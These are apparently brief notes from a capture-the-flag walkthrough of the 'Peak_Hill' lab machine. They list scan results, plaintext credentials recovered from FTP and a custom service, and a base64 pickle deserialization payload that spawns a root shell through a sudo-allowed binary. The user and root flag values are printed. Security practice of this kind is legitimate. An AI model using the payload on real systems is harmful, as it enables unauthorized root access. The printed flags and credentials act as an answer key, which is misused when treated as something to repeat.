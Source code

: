 # Peak_Hill 

> VOiD | Monday 27 December 2021 06:21:19 AM UTC

My IP : 10.8.253.221
Target IP : 10.10.54.223



Rustscan
```bash
Open 10.10.136.101:22
Open 10.10.136.101:21
Open 10.10.136.101:7321
```

## PORT 21 [FTP]
```bash
creds
test.txt
```

## PORT 7321 []
```bash
nc 10.10.136.101 7321
username:?
password:?

python3 ape.py | grep user | cut -d "'" -f 4
gherkin
cat real_creds | cut -d "'" -f 4 
p1ckl3s_@11_@r0und_th3_w0rld

```


## PORT 22 [ssh]
```bash
gherkin:p1ckl3s_@11_@r0und_th3_w0rld

ps auxf
dill      1104  0.2  2.4 187884 12236 ?        Ssl  11:56   0:01 /usr/bin/python3 /var/cmd/.cmd_service.py

scp gherkin@10.10.54.223:/cmd_service.pyc .

https://www.decompiler.com/ 
gives the decompile version

dill
n3v3r_@_d1ll_m0m3nt

dill@ubuntu-xenial:~$ cat user.txt 
f1e13335c47306e193212c98fc07b6a0

User dill may run the following commands on ubuntu-xenial:
    (ALL : ALL) NOPASSWD: /opt/peak_hill_farm/peak_hill_farm

using ape3 
gASVHwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjARiYXNolIWUUpQu

root.txt :e88f0a01135c05cf0912cf4bc335ee28
```